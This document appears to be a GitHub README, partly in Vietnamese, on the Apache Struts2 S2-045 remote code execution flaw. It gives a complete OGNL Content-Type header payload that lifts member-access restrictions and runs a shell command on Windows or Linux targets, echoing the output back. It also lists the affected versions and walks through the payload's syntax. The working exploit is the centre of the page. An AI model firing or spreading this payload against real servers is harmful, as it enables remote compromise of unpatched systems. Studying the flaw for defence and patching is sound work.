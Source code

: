 
## POC
```content-type
%{(#n='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

```Affected Version
Struts 2.3.5 – Struts 2.3.31
Struts 2.5 – Struts 2.5.10
```

## Explain:
put `n` is content-type `form-data` 

Dấu ":" được sử dụng để gán giá trị cho một biến hoặc thuộc tính

Dấu "." được sử dụng để truy cập đến thành viên của một đối tượng

```
OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess 
```

Dấu "." giữa hai đoạn mã OgnlContext@DEFAULT_MEMBER_ACCESS và (#_memberAccess trong câu truy vấn OGNL đó để kết hợp hai phần lại với nhau

Trong câu truy vấn OGNL 

```
(#_memberAccess?(#_memberAccess=#dm)
```

dấu "?" được sử dụng để thực hiện một điều kiện trong OGNL.

#_memberAccess?: Đây là một điều kiện trong OGNL. Nếu giá trị của #_memberAccess là đúng (khác null, không rỗng hoặc không phải giá trị false),

thì điều kiện này trả về true.

(#_memberAccess=#dm): Đây là một phép gán trong OGNL. Nếu điều kiện trước đó là đúng, tức là #_memberAccess là đúng, 

thì giá trị của #dm sẽ được gán cho #_memberAccess.

## Reference

https://nsfocusglobal.com/apache-struts2-remote-code-execution-vulnerability-s2-045/

## RCE

![RCE](image.png)

## Exploit!!!!

![alt text](image-1.png)
